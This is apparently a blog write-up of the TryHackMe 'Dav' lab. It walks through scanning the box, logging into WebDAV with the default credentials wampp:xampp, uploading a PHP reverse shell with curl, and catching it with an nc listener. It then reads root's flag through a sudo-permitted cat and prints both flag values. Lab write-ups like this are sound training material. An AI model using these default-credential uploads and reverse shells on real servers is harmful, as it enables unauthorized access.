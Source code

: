```yaml
---
title: "Dav - TryHackMe"
author: Ludovic COULON
date: 2020-05-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Dav room on TryHackMe"
---
```


[TryHackMe | Dav](https://tryhackme.com/room/bsidesgtdav)

Read user.txt and root.txt

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.33.240
```

```bash
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

```bash
➜  TryHackMe gobuster dir -u http://10.10.33.240 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.33.240
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/30 16:54:40 Starting gobuster
===============================================================
/webdav (Status: 401)
```

```bash
# There is a creds to acces the page just google webdav default creds"
http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html
user: wampp
pass: xampp
```

<div className="Image__Medium">
  <img src="https://imgur.com/BKDICjY.png" alt="blog_image" />
</div>

```bash
# Don't try to crack the hash its a rabit hole (sad life :'c)
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

Let's get a reverse shell on the server ! 🤑

[Learning Pentesting with Metasploitable3: Exploiting WebDAV](https://resources.infosecinstitute.com/learning-pentesting-metasploitable3-exploiting-webdav-2/#gref)

```bash
➜  TryHackMe curl –v --user wampp:xampp http://10.10.33.240/webdav/verify.txt -X PUT
curl: (3) Failed to convert –v to ACE; string contains a disallowed character

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/verify.txt has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.33.240 Port 80</address>
</body></html>
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtdInMA.png" alt="blog_image" />
</div>

Nice, let's try with a php reverse shell shall we ? 😃

### #1 user.txt

```bash
➜  TryHackMe curl --user wampp:xampp http://10.10.33.240/webdav/reverse-shell.php --upload-file reverse-shell.php -X PUT
➜  TryHackMe nc -lvnp 4444
```

<div className="Image__Medium">
  <img src="https://imgur.com/iIe25rq.png" alt="blog_image" />
</div>

```bash
$ cd /home
$ ls
merlin
wampp
$ cd merlin
$ ls
user.txt
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

### #2 root.txt

```bash
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
$ sudo cat /root/
cat: /root/: Is a directory
$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```


